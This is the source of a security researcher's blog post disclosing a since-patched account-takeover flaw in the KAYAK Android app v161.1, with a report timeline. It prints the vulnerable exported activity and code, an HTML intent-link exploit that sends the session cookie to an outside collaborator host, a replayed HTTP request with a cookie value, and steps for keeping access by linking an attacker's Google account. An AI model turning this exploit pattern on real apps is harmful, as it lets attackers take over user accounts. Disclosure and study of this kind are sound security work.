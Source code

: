```yaml
---
slug: account-takeover-kayak/
title: Account Takeover in KAYAK
date: 2022-11-23
subtitle: So it's the app itself that delivers the cookie to me?
category: attacks
tags: vulnerability, hacking, exploit, software, code
image: https://res.cloudinary.com/fluid-attacks/image/upload/v1669164815/blog/account-takeover-kayak/cover_account_takeover_kayak.webp
alt: Photo by Nahel Abdul Hadi on Unsplash
description: In this blog post, I present in detail a zero-day vulnerability I discovered in KAYAK v161.1, along with the steps to follow to replicate the exploit.
keywords: Kayak, Mobile Application, Android, Session Cookie, Vulnerability, Exploit, Improper Access Control, Ethical Hacking, Pentesting
author: Carlos Bello
writer: cbello
name: Carlos Bello
about1: Security Researcher
source: https://unsplash.com/es/fotos/flha0KwRrRc
---
```


While researching zero-day vulnerabilities in mobile applications,
I found it's possible to steal a user's session cookie
through a malicious deeplink
in KAYAK v161.1.
Below,
I will explain this vulnerability in detail,
where it is located in the code
and what steps must be taken to replicate the exploit.

## Where is this vulnerability?

I found the following exported activity
in the AndroidManifest.xml file:

```xml
<activity android:name="com.kayak.android.web.ExternalAuthLoginActivity" android:exported="true" android:launchMode="singleTask">
    <intent-filter>
        <data android:scheme="kayak"/>
        <data android:host="externalAuthentication"/>
        <action android:name="android.intent.action.VIEW"/>
        <category android:name="android.intent.category.DEFAULT"/>
        <category android:name="android.intent.category.BROWSABLE"/>
    </intent-filter>
</activity>
```

This means that
any app installed on a mobile device
with that vulnerable version of KAYAK
can interact with this activity.
In addition,
this activity can be called from a deeplink
and accepts implicit intents.

## ExternalAuthLoginActivity

After noticing that,
I immediately went to the exported activity
to see what it did and how it did it.
While analyzing and reading the source code,
I came across two very striking functions:

```java
 private final String getRedirectUrl() {
        String stringExtra = getIntent().getStringExtra(EXTRA_REDIRECT_URL);
        return stringExtra == null ? "" : stringExtra;
 }

 private final void launchCustomTabs() {
        m.d b10 = new d.a(this.helper.getSession()).g(true).b();
        p.d(b10, "Builder(helper.session)\n…rue)\n            .build()");
        Uri.Builder buildUpon = Uri.parse(getRedirectUrl()).buildUpon();
        buildUpon.appendQueryParameter(SESSION_QUERY_PARAM, l.getInstance().getSessionId());
        i.openCustomTab(this, b10, buildUpon.build(), null);
 }
```

Since the activity is exported,
a malicious web page via a deeplink,
or a malicious mobile app via an intent,
could set up a malicious RedirectUrl
using the getRedirectUrl function.
Okay,
but for this to have an impact,
we need to see what we can do about this behavior.

That's where the launchCustomTabs method comes in,
which,
as we see,
concatenates a GET parameter to the URL.
That GET parameter is the mobile app user's session cookie:

```java
public final String getSessionId() {
        String cookieValueInternal;
        synchronized (this) {
            cookieValueInternal = getCookieValueInternal(SESSION_COOKIE_NAME);
        }
        return cookieValueInternal;
}
```

```java
public static final String SESSION_COOKIE_NAME = "p1.med.sid";
```

With this in mind,
I didn't hesitate to log into the web application
and delete all cookies
to end up with a request like the following:

```txt
GET /profile/dashboard HTTP/2
Host: www.kayak.com.co
Cookie: p1.med.sid=[Cookie Here];
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
```

I uploaded the exploit to a malicious server:

```html
<!DOCTYPE html>
<html>
    <body>
        <a id="exploit" href="intent://externalAuthentication#Intent;scheme=kayak;package=com.kayak.android;component=com.kayak.android.web.ExternalAuthLoginActivity;action=android.intent.action.VIEW;S.ExternalAuthLoginActivity.EXTRA_REDIRECT_URL=https://jsfl9yn414bp1z2sujwfjsj3ruxlla.burpcollaborator.net;end">Exploit</a>;
    </body>
</html>
```

Then,
I opened it from the mobile app.
Checking the malicious server logs,
I saw how my account session cookie was leaked.
So I copied it and put it in the request I showed above:

```html
GET /profile/dashboard HTTP/2
Host: www.kayak.com.co
Cookie: p1.med.sid=65-R-4rhBEjEeCTHTB5bkcdEoO-RUM4RJuW5YvCJ3nfrsvdH0UbkjGBywHzVgsV0u8_Ys-4ay0zqH2q0Jt8H8EXM2yN-QEmydDQIbJ1eAmYZzh6nablokLtpHYCBUNGs7aoae;
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
```

## Account takeover POC

Below is a video demonstration of the exploitation
of this vulnerability:

<div class="tc">

<iframe
  width="560"
  height="315"
  src="https://www.youtube.com/embed/vmTDH8QpMnA"
  frameborder="0"
  allowfullscreen
>
</iframe>

</div>

## Problems and more problems - Account linking

I have found that
once I steal the victim's cookie
and log into the web application with it,
I can see the victim's data without any problem.
However,
I cannot edit them for some strange reason.
Therefore,
investigating the web application,
I realized that an attacker could gain full access to the account
—and then view, edit, delete information, etc.—
by simply linking a Google account
(or any other available provider).

In this case,
I linked a Google account corresponding to the attacker
to the victim's account.
The goal was that
the attacker would then only have to log into the application
from his Google account
to gain access to the victim's account.

<div class="tc">

<iframe
  width="560"
  height="315"
  src="https://www.youtube.com/embed/AgJRDqsawHU"
  frameborder="0"
  allowfullscreen
>
</iframe>

</div>

That's it.
An unauthenticated,
remote attacker can steal the account of any victim
logged into the KAYAK mobile app for Android
with a one-click attack.

## Timeline

### August 12, 2022

- Vulnerability reported:
  Improper Access Control
  (CVSS: 9.3; Critical)

- Vulnerability triaged

### August 13, 2022

- USD 3,000 bounty awarded

- Vulnerability remediated

- KAYAK v161.2 (10048) available on Play Store
